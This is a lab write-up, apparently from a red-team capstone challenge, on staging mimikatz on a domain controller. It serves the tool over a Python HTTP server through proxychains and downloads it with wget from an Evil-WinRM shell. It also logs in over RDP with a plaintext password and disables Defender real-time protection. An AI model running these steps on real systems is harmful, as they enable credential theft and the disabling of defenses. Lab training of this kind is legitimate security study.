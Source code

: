## Download mimikatz

[[Dumping secrets from CORPDC#Connect to RDP with the Administrator's credentials|Connect to CORP.DC with Administration credentials]]

NOTE: If you can't connect , go to [[Dumping secrets from CORPDC]]



### Enable http.server using python and proxychains on the Attacking machine


~/…/red_team_recon/Capstone_Challenge/Capstone_Challenge_Resources/Tools/mimikatz_trunk/x64$  `proxychains -q python3 -m http.server`

### Get mimikatz
On the tools provided on Capstone challenge folder you can find mimikatz.
Run on the Evil-WinRM shell the following command.

Evil-WinRM* PS C:\Users\Administrator> `wget http://10.50.110.16:8000/mimikatz.exe -o mimikatz.exe`

#### Connect to RDP with the Administrator's credentials

$ `proxychains4 -q xfreerdp /v:10.200.113.102 /u:Administrator /p:Hacker@123` 


## Disable CORP.DC firewall

Disabled firewall.

PS C:\Users\Administrator> `Set-MpPreference -DisableRealTimeMonitoring $true`

![[Preparing the path-20240607144158824.webp]]
## Disable virus protection

Disable virus and turned off Real-time protection from settings.
- **Open Windows Security:**
    
    - Click on the **Start** button.
    - Type **Windows Security** in the search bar and press Enter.
    - Alternatively, you can also find it by navigating through **Settings > Update & Security > Windows Security**.
    - ![[Preparing the path-20240607143234384.webp]]

